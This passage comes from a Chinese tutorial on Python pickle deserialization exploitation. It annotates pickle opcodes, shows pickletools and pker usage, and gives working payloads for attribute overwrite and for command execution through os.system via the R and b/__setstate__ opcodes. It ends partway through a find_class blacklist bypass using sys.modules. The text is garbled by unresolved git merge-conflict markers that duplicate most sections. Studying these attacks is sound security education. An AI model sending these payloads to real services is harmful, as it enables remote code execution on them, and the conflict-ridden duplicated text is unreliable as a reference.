EMPTY_TUPLE    = b')'   #没什么好说，往栈中压入一个空元组
SETITEMS       = b'u'   #先弹出上一次 Mark 之后的全部元素放入一个数组 items 中，然后获取栈顶元素记为 dict，通过 i=0,2,3...获取 items 中的数据，执行 dict[items[i]] = items[i + 1]给栈顶的字典元素添加键值对
BINFLOAT       = b'G'   #先读取 8 字节数据，然后使用 unpack 通过<d 格式的解压，将得到的 float 数据压栈
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

TRUE           = b'I01\n'  # not an opcode; see INT docs in pickletools.py
FALSE          = b'I00\n'  # not an opcode; see INT docs in pickletools.py

# Protocol 2

<<<<<<< HEAD
PROTO          = b'\x80'  #用于声明pickle协议版本
NEWOBJ         = b'\x81'#(这个很有用)  #从栈中弹出两次变量,第一次弹出的变量记为var1,第二次弹出的变量记为var2,然后就会通过cls.__new__(var2, *var1)生成实例化对象,然后将生成的对象压栈
EXT1           = b'\x82'  #'''\x82,\x83,\x84这三个操作都是和extension registry扩展注册表有关的,但是拓展注册表主要维护4个从copyreg导入的映射字典
EXT2           = b'\x83'  #     dispatch_tablecopyreg, _extension_registry, _inverted_registry, _extension_cache
EXT4           = b'\x84'  #     但是从头到尾貌似这几个核心表单都没有发生过变化(也可能是我没注意到而已)'''
TUPLE1         = b'\x85'  #将栈顶元素弹出放到一个元组中再将这个元组压栈,就是将栈顶放到一个元组里面的作用b"S'S1nk'\n\x85." => ('S1nk',)
TUPLE2         = b'\x86'  #将栈顶的两个元素弹出,栈顶弹出为var1,继续弹出一个为var2,然后组成一个元组然后将这个元组压栈,得到(var2,var1),b"S'S1nk'\nS'S1nKk'\n\x86." => ('S1nk', 'S1nKk')
TUPLE3         = b'\x87'  #和上面一样,不够该操作是弹出三个元素形成元组b"S'S1nK'\nS'S11nK'\nS'S111nK'\n\x87." => ('S1nK', 'S11nK', 'S111nk')
NEWTRUE        = b'\x88'  #向栈中压入一个True
NEWFALSE       = b'\x89'  #向栈中压入一个False
LONG1          = b'\x8a'  #先读取一个字节,以该字节16进制数为大小size,从后面的数据读取size个字节,然后将读取到的数据转为long类型
LONG4          = b'\x8b'  #读取4字节数据,通过unpack的<i格式将数据解压得到一个整数,以这个整数为字节大小读取后面的数据

_tuplesize2code = [EMPTY_TUPLE, TUPLE1, TUPLE2, TUPLE3]#就是元组操作合集,分别是向栈中压入空数组,将最后1个元素放入元组后将元组压栈,将最后2个元素放入元组后将元组压栈,将最后3个元素放入元组后将元组压栈

# Protocol 3 (Python 3.x)#这里要注意一下,后面的操作是有python3方才支持

BINBYTES       = b'B'   #先读取4字节数据通过unpack使用<i格式将数据解压,将得到的结果作为大小向后读取相应字节数,然后将读取到的全部字节压栈,注意一下,压栈的是原始的比特流数据b'B\x06\x00\x00\x00h0cksr.' => b'S1nKk'
SHORT_BINBYTES = b'C'   #读取一个字节,以它的16进制数作为大小向后读取对应字节的数据b'C\x06h0cksr.' => b'S1nKk'

# Protocol 4
SHORT_BINUNICODE = b'\x8c'  #先读取一个字节,以这个字节的16进制为大小向后读取对应字节的数据,然后使用utf-8的格式解码数据为字符串格式,然后将这个字符串压栈b'\x8c\x06S1nKk.' => S1nKk
BINUNICODE8      = b'\x8d'  #先读取8字节数据然后通过unpack使用<Q格式解压数据,将得到的结果作为大小向后读取相应字节数,然后将读取到的数据使用utf-8格式解压为字符串,将字符串压栈b'\x8d\x06\x00\x00\x00\x00\x00\x00\x00h0cksr.' => h0cksr
BINBYTES8        = b'\x8e'  #同上读取8字节数据<Q格式解压,然后读取数据,但是直接将比特流数据压栈而不会解码b'\x8e\x06\x00\x00\x00\x00\x00\x00\x00S1nKk.' => b'S1nKk'
EMPTY_SET        = b'\x8f'  #向栈中压入一个set类型的空集合(set()没有指定iterable的时候返回的是一个空集合)
ADDITEMS         = b'\x90'  #先pop弹出一个元素作为items,记栈顶元素为top,然后检查top是否为set类型,如果是的话就执行top.update(items),如果top不是set类型那就使用for遍历items,逐个执行top.add(item)
FROZENSET        = b'\x91'  #弹出栈顶元素作为items,然后执行frozenset(items)生成一个frozenset类型的变量,并将这个变量压栈
NEWOBJ_EX        = b'\x92'#(这个很有用)  #和NEWOBJ差不多,先从栈中弹出三个元素,第一个,第二个,第三个弹出的元素分别记为var1,var2,var3,然后执行cls.__new__(var3, *var2, **var1)之后将执行生成的对象压栈
STACK_GLOBAL     = b'\x93'#(这个很有用)  #和GLOBAL操作一样但是导入的模块从栈上获取,先弹出一个元素为name,然后再弹出一个元素moudle,要求两个元素都必须是字符串类型,然后到处moudle.name,在将导出的内容压栈b"S'os'\nS'system'\n\x93." => os.system
MEMOIZE          = b'\x94'  #将当前栈顶元素添加到缓存列表的末尾(注意栈顶不会弹出)
FRAME            = b'\x95'  #后面先是读取8字节数据通过unpack使用<Q格式将数据解压得到的结果作为大小,向后读取对应字节的数据,然后将读取到的数据进行正常pickle反序列化(感觉用不用这个操作没啥差别,但是细节差别的话看源码)
=======
PROTO          = b'\x80'  #用于声明 pickle 协议版本
NEWOBJ         = b'\x81'#(这个很有用)  #从栈中弹出两次变量，第一次弹出的变量记为 var1，第二次弹出的变量记为 var2，然后就会通过 cls.__new__(var2, *var1) 生成实例化对象，然后将生成的对象压栈
EXT1           = b'\x82'  #'''\x82,\x83,\x84 这三个操作都是和 extension registry 扩展注册表有关的，但是拓展注册表主要维护 4 个从 copyreg 导入的映射字典
EXT2           = b'\x83'  #     dispatch_tablecopyreg, _extension_registry, _inverted_registry, _extension_cache
EXT4           = b'\x84'  #     但是从头到尾貌似这几个核心表单都没有发生过变化 (也可能是我没注意到而已)'''
TUPLE1         = b'\x85'  #将栈顶元素弹出放到一个元组中再将这个元组压栈，就是将栈顶放到一个元组里面的作用 b"S'S1nk'\n\x85." => ('S1nk',)
TUPLE2         = b'\x86'  #将栈顶的两个元素弹出，栈顶弹出为 var1，继续弹出一个为 var2，然后组成一个元组然后将这个元组压栈，得到 (var2,var1),b"S'S1nk'\nS'S1nKk'\n\x86." => ('S1nk', 'S1nKk')
TUPLE3         = b'\x87'  #和上面一样，不够该操作是弹出三个元素形成元组 b"S'S1nK'\nS'S11nK'\nS'S111nK'\n\x87." => ('S1nK', 'S11nK', 'S111nk')
NEWTRUE        = b'\x88'  #向栈中压入一个 True
NEWFALSE       = b'\x89'  #向栈中压入一个 False
LONG1          = b'\x8a'  #先读取一个字节，以该字节 16 进制数为大小 size，从后面的数据读取 size 个字节，然后将读取到的数据转为 long 类型
LONG4          = b'\x8b'  #读取 4 字节数据，通过 unpack 的<i 格式将数据解压得到一个整数，以这个整数为字节大小读取后面的数据

_tuplesize2code = [EMPTY_TUPLE, TUPLE1, TUPLE2, TUPLE3]#就是元组操作合集，分别是向栈中压入空数组，将最后 1 个元素放入元组后将元组压栈，将最后 2 个元素放入元组后将元组压栈，将最后 3 个元素放入元组后将元组压栈

# Protocol 3 (Python 3.x)#这里要注意一下，后面的操作是有 python3 方才支持

BINBYTES       = b'B'   #先读取 4 字节数据通过 unpack 使用<i 格式将数据解压，将得到的结果作为大小向后读取相应字节数，然后将读取到的全部字节压栈，注意一下，压栈的是原始的比特流数据 b'B\x06\x00\x00\x00h0cksr.' => b'S1nKk'
SHORT_BINBYTES = b'C'   #读取一个字节，以它的 16 进制数作为大小向后读取对应字节的数据 b'C\x06h0cksr.' => b'S1nKk'

# Protocol 4
SHORT_BINUNICODE = b'\x8c'  #先读取一个字节，以这个字节的 16 进制为大小向后读取对应字节的数据，然后使用 utf-8 的格式解码数据为字符串格式，然后将这个字符串压栈 b'\x8c\x06S1nKk.' => S1nKk
BINUNICODE8      = b'\x8d'  #先读取 8 字节数据然后通过 unpack 使用<Q 格式解压数据，将得到的结果作为大小向后读取相应字节数，然后将读取到的数据使用 utf-8 格式解压为字符串，将字符串压栈 b'\x8d\x06\x00\x00\x00\x00\x00\x00\x00h0cksr.' => h0cksr
BINBYTES8        = b'\x8e'  #同上读取 8 字节数据<Q 格式解压，然后读取数据，但是直接将比特流数据压栈而不会解码 b'\x8e\x06\x00\x00\x00\x00\x00\x00\x00S1nKk.' => b'S1nKk'
EMPTY_SET        = b'\x8f'  #向栈中压入一个 set 类型的空集合 (set() 没有指定 iterable 的时候返回的是一个空集合)
ADDITEMS         = b'\x90'  #先 pop 弹出一个元素作为 items，记栈顶元素为 top，然后检查 top 是否为 set 类型，如果是的话就执行 top.update(items),如果 top 不是 set 类型那就使用 for 遍历 items，逐个执行 top.add(item)
FROZENSET        = b'\x91'  #弹出栈顶元素作为 items，然后执行 frozenset(items) 生成一个 frozenset 类型的变量，并将这个变量压栈
NEWOBJ_EX        = b'\x92'#(这个很有用)  #和 NEWOBJ 差不多，先从栈中弹出三个元素，第一个，第二个，第三个弹出的元素分别记为 var1,var2,var3，然后执行 cls.__new__(var3, *var2, **var1) 之后将执行生成的对象压栈
STACK_GLOBAL     = b'\x93'#(这个很有用)  #和 GLOBAL 操作一样但是导入的模块从栈上获取，先弹出一个元素为 name，然后再弹出一个元素 moudle，要求两个元素都必须是字符串类型，然后到处 moudle.name，在将导出的内容压栈 b"S'os'\nS'system'\n\x93." => os.system
MEMOIZE          = b'\x94'  #将当前栈顶元素添加到缓存列表的末尾 (注意栈顶不会弹出)
FRAME            = b'\x95'  #后面先是读取 8 字节数据通过 unpack 使用<Q 格式将数据解压得到的结果作为大小，向后读取对应字节的数据，然后将读取到的数据进行正常 pickle 反序列化 (感觉用不用这个操作没啥差别，但是细节差别的话看源码)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```

爱来自 h0cksr 师傅

#### pickletools 的使用

pickletools 是 python 的一个内建模块，常用的方法有 `pickletools.dis()`, 用于把一段 opcode 转换为易读的形式，如

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
import pickletools

opcode = b'''c__main__
secret
(S'secret'
S'Hack!!!'
db.'''

pickletools.dis(opcode)
```

输出

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
0: c    GLOBAL     '__main__ secret'
   17: (    MARK
   18: S        STRING     'secret'
   28: S        STRING     'Hack!!!'
   39: d        DICT       (MARK at 17)
   40: b    BUILD
   41: .    STOP
highest protocol among opcodes = 0
```

#### pker 的使用

<<<<<<< HEAD
pker 是一个可以把 python 语言翻译成 opcode 的工具.
=======
pker 是一个可以把 python 语言翻译成 opcode 的工具。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

pker 支持这三种操作

-   变量赋值：
    -   左值可以是变量名，dict 或 list 的 item，对象成员
    -   右值可以是基础类型字面量，函数调用
-   函数调用
-   return：可返回 0~1 个参数

pker 内置了三个函数

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
GLOBAL('os', 'system')             =>  cos\nsystem\n
INST('os', 'system', 'ls')         =>  (S'ls'\nios\nsystem\n
OBJ(GLOBAL('os', 'system'), 'ls')  =>  (cos\nsystem\nS'ls'\no
```

可以用 return 返回一个对象

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
return           =>  .
return var       =>  g_\n.
return 1         =>  I1\n.
```

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#pker_test.py

i = 0
s = 'id'
lst = [i]
tpl = (0,)
dct = {tpl: 0}
system = GLOBAL('os', 'system')
system(s)
return
```

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
#命令行下

$ python3 pker.py < pker_tests.py

b"I0\np0\n0S'id'\np1\n0(g0\nlp2\n0(I0\ntp3\n0(g3\nI0\ndp4\n0cos\nsystem\np5\n0g5\n(g1\ntR."
```

### 利用

#### 变量覆盖

<<<<<<< HEAD
假设存在类 `Secret`, 类有一个 `name` 属性，那我们可以通过 pickle 反序列化修改这个属性的值.

```plain
=======
假设存在类 `Secret`, 类有一个 `name` 属性，那我们可以通过 pickle 反序列化修改这个属性的值。

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
import pickle
import pickletools
class Secret:
    def __init__(self, name):
        self.name = name

s=Secret("S1nKk")
opcode=b"""c__main__
s
(S'name'
S'Funny_M0nk3y'
db."""
pickle.loads(opcode)
print(s.name)
# pickletools.dis(opcode)
```

<<<<<<< HEAD
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308140150-5aca3616-dd11-1.png)
=======
[](https://xzfile.aliyuncs.com/media/upload/picture/20240308140150-5aca3616-dd11-1.png)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

成功输出 `Funny_M0nk3y`, 表示成功篡改属性

逐行解读一下 opcode

<<<<<<< HEAD
```plain
opcode=b"""c__main__
s#向栈中压入被实例化的s
(S'name'#压入一个MARK,再压入一个'name'字符串
S'Funny_M0n3ky'#压入一个ghd
db."""
#d操作符弹出'name'和ghd,压入一个字典{name:Funny_M0nk3y}
#b操作符弹出字典,并用字典中的键值对{name:Funny_M0nk3y}给s赋值(相当于执行了s的__init__),完成了篡改
=======
```bash
opcode=b"""c__main__
s#向栈中压入被实例化的s
(S'name'#压入一个 MARK，再压入一个'name'字符串
S'Funny_M0n3ky'#压入一个 ghd
db."""
#d 操作符弹出'name'和 ghd，压入一个字典{name:Funny_M0nk3y}
#b 操作符弹出字典，并用字典中的键值对{name:Funny_M0nk3y}给 s 赋值 (相当于执行了 s 的__init__),完成了篡改
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
```

#### RCE

<<<<<<< HEAD
可以使用 `R`,`i`,`o`,`b` 等操作码实现命令执行.

##### `c` 操作符

先提一下用的最多的 `c` 操作符，其中 `find_class()` 函数很关键，在对危险函数的过滤和绕过中也会提到这个函数.

```plain
def load_global(self):
    module = self.readline()[:-1].decode("utf-8")
    name = self.readline()[:-1].decode("utf-8")#获取moudle和name
    klass = self.find_class(module, name)#使用find_class()获取函数
    self.append(klass)#压栈
```

```plain
=======
可以使用 `R`,`i`,`o`,`b` 等操作码实现命令执行。

##### `c` 操作符

先提一下用的最多的 `c` 操作符，其中 `find_class()` 函数很关键，在对危险函数的过滤和绕过中也会提到这个函数。

```bash
def load_global(self):
    module = self.readline()[:-1].decode("utf-8")
    name = self.readline()[:-1].decode("utf-8")#获取 moudle 和 name
    klass = self.find_class(module, name)#使用 find_class() 获取函数
    self.append(klass)#压栈
```

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
def find_class(self, module, name):
    # Subclasses may override this.
    sys.audit('pickle.find_class', module, name)
    if self.proto < 3 and self.fix_imports:
        if (module, name) in _compat_pickle.NAME_MAPPING:
            module, name = _compat_pickle.NAME_MAPPING[(module, name)]
        elif module in _compat_pickle.IMPORT_MAPPING:
            module = _compat_pickle.IMPORT_MAPPING[module]
    __import__(module, level=0)
    if self.proto >= 4:
        return _getattribute(sys.modules[module], name)[0]
    else:
        return getattr(sys.modules[module], name)
```

<<<<<<< HEAD
`c` 操作符把 `find_class()` 函数返回的一个类对象压入栈，通过`__import__()` 引入了模块并且通过 `self.proto` 判断 pickle 版本处理了不同版本的函数名称问题.
=======
`c` 操作符把 `find_class()` 函数返回的一个类对象压入栈，通过`__import__()` 引入了模块并且通过 `self.proto` 判断 pickle 版本处理了不同版本的函数名称问题。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

##### `R` 操作符

源码

<<<<<<< HEAD
```plain
def load_reduce(self):
    stack = self.stack
    args = stack.pop()#栈顶的元组出栈,把元组赋值给args
=======
```bash
def load_reduce(self):
    stack = self.stack
    args = stack.pop()#栈顶的元组出栈，把元组赋值给 args
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
    func = stack[-1]
    #stack[-1]是出栈操作,索引值为-1代表最后一个进入列表的元素(反向索引)
    stack[-1] = func(*args)#func出栈,func的返回值进栈
    #'*'操作符用作解包,把元组里的元素作为未知参数传递给func
```

用 R 操作符构造的 payload 模板

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
c<module>
<callable>
(<args>
tR.
```

e.g.

<<<<<<< HEAD
```plain
cos
system #用c操作符引入os.system,也就是把os.system压入栈
(S'ls' #先把MARK压入栈,再把ls压入栈
tR. #t操作符把ls出栈,元组(ls)入栈
    #R操作符把元组作为os.system的参数传入并执行
=======
```bash
cos
system #用 c 操作符引入 os.system，也就是把 os.system 压入栈
(S'ls' #先把 MARK 压入栈，再把 ls 压入栈
tR. #t 操作符把 ls 出栈，元组 (ls) 入栈
    #R 操作符把元组作为 os.system 的参数传入并执行
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
<=> __import__('os').system(*('ls',))
```

##### `o` 操作符

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
def load_obj(self):
    # Stack is ... markobject classobject arg1 arg2 ...
    args = self.pop_mark()
    cls = args.pop(0)
    self._instantiate(cls, args)
```

寻找栈中的上一个 MARK，以之间的第一个数据（必须为函数）为 callable，第二个到第 n 个数据为参数，执行该函数（或实例化一个对象）

##### `i` 操作符

<<<<<<< HEAD
```plain
=======
```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
def load_inst(self):
    module = self.readline()[:-1].decode("ascii")
    name = self.readline()[:-1].decode("ascii")
    klass = self.find_class(module, name)
    self._instantiate(klass, self.pop_mark())
```

源码不是很容易懂，`i` 像是 `o` 和 `c` 的结合，先获取一个全局函数，然后寻找栈中的上一个 MARK，并组合之间的数据为元组，以该元组为参数执行全局函数（或实例化一个对象）.

##### `b` 操作符

<<<<<<< HEAD
```plain
def load_build(self):
        stack = self.stack
        state = stack.pop()
        # 首先获取栈上的字节码 b 前的一个元素，对于对象来说，该元素一般是存储有对象属性的dict
=======
```bash
def load_build(self):
        stack = self.stack
        state = stack.pop()
        # 首先获取栈上的字节码 b 前的一个元素，对于对象来说，该元素一般是存储有对象属性的 dict
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
        inst = stack[-1]
        #获取该字典中键名为"__setstate__"的value
        setstate = getattr(inst, "__setstate__", None)
        #如果存在，则执行value(state)
        if setstate is not None:
            setstate(state)
            return
        slotstate = None
        if isinstance(state, tuple) and len(state) == 2:
            state, slotstate = state
        #如果"__setstate__"为空，则state与对象默认的__dict__合并，这一步其实就是将序列化前保存的持久化属性和对象属性字典合并
        if state:#如果state不是False,None,0或者非空序列,就步入
            inst_dict = inst.__dict__
            intern = sys.intern
            for k, v in state.items():
                if type(k) is str:
                    inst_dict[intern(k)] = v
                else:
                    inst_dict[k] = v
        #如果__setstate__和__getstate__都没有设置，则加载默认__dict__
        if slotstate:
            for k, v in slotstate.items():
                setattr(inst, k, v)
    dispatch[BUILD[0]] = load_build
```

简单地说，`b` 操作符有两种用法

1.  向一个实例中插入属性，或覆盖属性
2.  以一个实例的`__setstate__`属性为 `func`,`b` 的前一个元素当作 `arg`, 执行 `func(arg)`

<<<<<<< HEAD
`b` 操作符的工作方式:

1.  弹栈，此元素为 `state`.
2.  取栈顶元素，此元素为 `setstate`. 此元素可以是一个实例，也可以是一个字典。如果是一个实例，那么会尝试获取这个实例的`__setstate__`属性的值.
3.  如果`__setstate__`存在，那么执行 `setstate(state)`.
4.  如果`__setstate__`不存在，判断 `state` 的类型。如果是元组，并且元组中只有两个元素，那么就按顺序给 `state` 和 `slotstate` 赋元组中的元素，然后根据 `state` 字典中的键值对给 `inst.__dict__`更新属性的值。如果 `slotstate` 是一个字典，那么也根据 `slotstate` 的键值对给 `inst` 更新属性的值.
5.  如果不是元组，那么就根据 `state` 字典中的值更新 `inst.__dict__`的值.

因为存在

```plain
=======
`b` 操作符的工作方式：

1.  弹栈，此元素为 `state`.
2.  取栈顶元素，此元素为 `setstate`. 此元素可以是一个实例，也可以是一个字典。如果是一个实例，那么会尝试获取这个实例的`__setstate__`属性的值。
3.  如果`__setstate__`存在，那么执行 `setstate(state)`.
4.  如果`__setstate__`不存在，判断 `state` 的类型。如果是元组，并且元组中只有两个元素，那么就按顺序给 `state` 和 `slotstate` 赋元组中的元素，然后根据 `state` 字典中的键值对给 `inst.__dict__`更新属性的值。如果 `slotstate` 是一个字典，那么也根据 `slotstate` 的键值对给 `inst` 更新属性的值。
5.  如果不是元组，那么就根据 `state` 字典中的值更新 `inst.__dict__`的值。

因为存在

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
if setstate is not None:
            setstate(state)
            return
```

<<<<<<< HEAD
这一功能，那么 `b` 操作符理所当然地可以用来进行命令执行.

`b` 操作符的使用模板

```plain
b'c__main__\ns1nk\n)\x81}X\x0C\x00\x00\x00__setstate__cos\nsystem\nsbX\x06\x00\x00\x00whoamib.'
```

用 pickletools 看一下过程.

```plain
0: c    GLOBAL     '__main__ s1nk' #引入一个模块
   15: )    EMPTY_TUPLE   #压入一个空元组
   16: \x81 NEWOBJ        #创建一个c引入模块的实例,并以元组作为传入的元素
   17: }    EMPTY_DICT    #压入一个空字典
   18: X    BINUNICODE '__setstate__'  #压入一个字符串"__setstate__”
   35: c    GLOBAL     'os system'     #压入一个os.system模块
   46: s    SETITEM                    #弹出两个元素,分别作为value和key,再取当前栈顶元素为dict,dict[key]=value
   47: b    BUILD                      #实例没有__setstate__属性,那么就把字典的键值对赋给实例
   48: X    BINUNICODE 'whoami'        #压入字符串"whoami”
   59: b    BUILD                      #实例有__setstate__属性,执行了os.system(whoami)
=======
这一功能，那么 `b` 操作符理所当然地可以用来进行命令执行。

`b` 操作符的使用模板

```bash
b'c__main__\ns1nk\n)\x81}X\x0C\x00\x00\x00__setstate__cos\nsystem\nsbX\x06\x00\x00\x00whoamib.'
```

用 pickletools 看一下过程。

```bash
0: c    GLOBAL     '__main__ s1nk' #引入一个模块
   15: )    EMPTY_TUPLE   #压入一个空元组
   16: \x81 NEWOBJ        #创建一个 c 引入模块的实例，并以元组作为传入的元素
   17: }    EMPTY_DICT    #压入一个空字典
   18: X    BINUNICODE '__setstate__'  #压入一个字符串"__setstate__”
   35: c    GLOBAL     'os system'     #压入一个 os.system 模块
   46: s    SETITEM                    #弹出两个元素，分别作为 value 和 key，再取当前栈顶元素为 dict,dict[key]=value
   47: b    BUILD                      #实例没有__setstate__属性，那么就把字典的键值对赋给实例
   48: X    BINUNICODE 'whoami'        #压入字符串"whoami”
   59: b    BUILD                      #实例有__setstate__属性，执行了 os.system(whoami)
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
   60: .    STOP
highest protocol among opcodes = 2
```

<<<<<<< HEAD
```plain
c__main__
name
}(S"__setstate__"    # } 压入空dict __setstate__，然后 c push进去我们的 os.system
cos
system
ubS"calc"  # 执行第一次 b ，因为现在并没有 b ，所以执行 __dict__.update，也就是将我们前面的 {"__setstate__":os.system} 压入栈
=======
```bash
c__main__
name
}(S"__setstate__"    # } 压入空 dict __setstate__，然后 c push 进去我们的 os.system
cos
system
ubS"calc"  # 执行第一次 b，因为现在并没有 b，所以执行 __dict__.update，也就是将我们前面的 {"__setstate__":os.system} 压入栈
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
b.         # 再次执行 b 由于已经有了__setstate__，所以会将栈中字节码 b 的前一个元素当作 state，执行__setstate__(state)，
```

这个 payload 看似是可行的，但是具体运行时会报错 `TypeError: 'mappingproxy' object does not support item assignment`.

在 Python 中，使用 `class.__dict__`调用一个类的属性会返回一个不可变字典 (mappingproxy), 如果对这个字典进行更新就会报错。那么第一个 payload 为什么能用呢？？

> 所有实例属性都存储在 **dict** 字典中，这就是一个常规的 dict，对于实例属性的维护即是从该字典中获取和修改
> 
<<<<<<< HEAD
> 类属性使用的字典是一个 MappingProxyType 对象，它是一个不能 setattr 的字典。这意味着它对开发者是只读的.

也就是说，我们只能修改一个实例的 `inst.__dict__`, 而不能修改一个类的 `class.__dict__`.

重点关注 `\x81` 这个操作符。这个 payload 通过 `\x81` 操作符对 `c` 引入的`__main__.s1nk` 实例化，进而实现了对`__main__.s1nk` 一个实例的属性的修改.
=======
> 类属性使用的字典是一个 MappingProxyType 对象，它是一个不能 setattr 的字典。这意味着它对开发者是只读的。

也就是说，我们只能修改一个实例的 `inst.__dict__`, 而不能修改一个类的 `class.__dict__`.

重点关注 `\x81` 这个操作符。这个 payload 通过 `\x81` 操作符对 `c` 引入的`__main__.s1nk` 实例化，进而实现了对`__main__.s1nk` 一个实例的属性的修改。
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f

### 绕过

#### 重写 `find_class()` 的

##### 思路一 获取危险函数

<<<<<<< HEAD
Python 是一门**面向对象属性很重的**语言。也就是说在 Python 中几乎一切皆为对象。这也为我们的绕过提供的不小的便利.

比如这样重写

```plain
=======
Python 是一门**面向对象属性很重的**语言。也就是说在 Python 中几乎一切皆为对象。这也为我们的绕过提供的不小的便利。

比如这样重写

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
import pickle
import io
import builtins

class RestrictedUnpickler(pickle.Unpickler):
    blacklist = {'eval', 'exec', 'execfile', 'compile', 'open', 'input', '__import__', 'exit'}


    def find_class(self, module, name):
        # Only allow safe classes from builtins.
        if module == "builtins" and name not in self.blacklist:
            return getattr(builtins, name)
        # Forbid everything else.
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" %
                                     (module, name))

def restricted_loads(s):
    """Helper function analogous to pickle.loads()."""
    return RestrictedUnpickler(io.BytesIO(s)).load()
```

<<<<<<< HEAD
这种过滤终究是针对了 `find_class()` 函数，只要我们在使用 `c` 操作符和 `i` 时不违反规定即可。在本题中是不能通过 `find_class()` 函数调用黑名单中的函数.

和 SSTI 和沙箱逃逸的思路类似，可以通过构造类对象链调用某些方法中含有危险函数的类实现绕过。我们只需要构造形如 `builtins.getattr(builtins,"eval")(command)` 的 payload 即可实现绕过。在 pickle 反序列化中的一个难点就是如何用 opcode 表示出我们需要的命令.

###### 利用 `sys.module` 获取危险函数

`sys.module` 是一个全局字典，其主要用于存储已经被加载到当前会话中的你快。这个知识点会在学习沙箱逃逸的时候重点学习.`sys.modules` 这个字典的键是模块名，值是模块本身。所以我们可以通过 `get(sys.modules,"moduleName")` 的方法获取危险模块.

```plain
=======
这种过滤终究是针对了 `find_class()` 函数，只要我们在使用 `c` 操作符和 `i` 时不违反规定即可。在本题中是不能通过 `find_class()` 函数调用黑名单中的函数。

和 SSTI 和沙箱逃逸的思路类似，可以通过构造类对象链调用某些方法中含有危险函数的类实现绕过。我们只需要构造形如 `builtins.getattr(builtins,"eval")(command)` 的 payload 即可实现绕过。在 pickle 反序列化中的一个难点就是如何用 opcode 表示出我们需要的命令。

###### 利用 `sys.module` 获取危险函数

`sys.module` 是一个全局字典，其主要用于存储已经被加载到当前会话中的你快。这个知识点会在学习沙箱逃逸的时候重点学习。`sys.modules` 这个字典的键是模块名，值是模块本身。所以我们可以通过 `get(sys.modules,"moduleName")` 的方法获取危险模块。

```bash
>>>>>>> 4992f5f682bf7aa8873ceb2495ac1d2a8296850f
>>> sys.modules
{'sys': <module 'sys' (built-in)>, 'builtins': <module 'builtins' (built-in)>, '_frozen_importlib': <module '_frozen_importlib' (frozen)>, '_imp': <module '_imp' (built-in)>, '_thread': <module '_thread' (built-in)>, '_warnings': <module '_warnings' (built-in)>, '_weakref': <module '_weakref' (built-in)>, 'winreg': <module 'winreg' (built-in)>, '_io': <module '_io' (built-in)>, 'marshal': <module 'marshal' (built-in)>, 'nt': <module 'nt' (built-in)>, '_frozen_importlib_external': <module '_frozen_importlib_external' (frozen)>, 'time': <module 'time' (built-in)>, 'zipimport': <module 'zipimport' (frozen)>, '_codecs': <module '_codecs' (built-in)>, 'codecs': <module 'codecs' (frozen)>, 'encodings.aliases': <module 'encodings.aliases' from 'C:\\Python311\\Lib\\encodings\\aliases.py'>, 'encodings': <module 'encodings' from 'C:\\Python311\\Lib\\encodings\\__init__.py'>, 'encodings.utf_8': <module 'encodings.utf_8' from 'C:\\Python311\\Lib\\encodings\\utf_8.py'>, '_codecs_cn': <module '_codecs_cn' (built-in)>, '_multibytecodec': <module '_multibytecodec' (built-in)>, 'encodings.gbk': <module 'encodings.gbk' from 'C:\\Python311\\Lib\\encodings\\gbk.py'>, '_signal': <module '_signal' (built-in)>, '_abc': <module '_abc' (built-in)>, 'abc': <module 'abc' (frozen)>, 'io': <module 'io' (frozen)>, '__main__': <module '__main__' (built-in)>, '_stat': <module '_stat' (built-in)>, 'stat': <module 'stat' (frozen)>, '_collections_abc': <module '_collections_abc' (frozen)>, 'genericpath': <module 'genericpath' (frozen)>, '_winapi': <module '_winapi' (built-in)>, 'ntpath': <module 'ntpath' (frozen)>, 'os.path': <module 'ntpath' (frozen)>, 'os': <module 'os' (frozen)>, '_sitebuiltins': <module '_sitebuiltins' (frozen)>, '_distutils_hack': <module '_distutils_hack' from 'C:\\Python311\\Lib\\site-packages\\_distutils_hack\\__init__.py'>, 'pywin32_system32': <module 'pywin32_system32' (<_frozen_importlib_external.NamespaceLoader object at 0x000002387C3F5C50>)>, 'pywin32_bootstrap': <module 'pywin32_bootstrap' from 'C:\\Python311\\Lib\\site-packages\\win32\\lib\\pywin32_bootstrap.py'>, 'site': <module 'site' (frozen)>, 'atexit': <module 'atexit' (built-in)>, '_ast': <module '_ast' (built-in)>, 'itertools': <module 'itertools' (built-in)>, 'keyword': <module 'keyword' from 'C:\\Python311\\Lib\\keyword.py'>, '_operator': <module '_operator' (built-in)>, 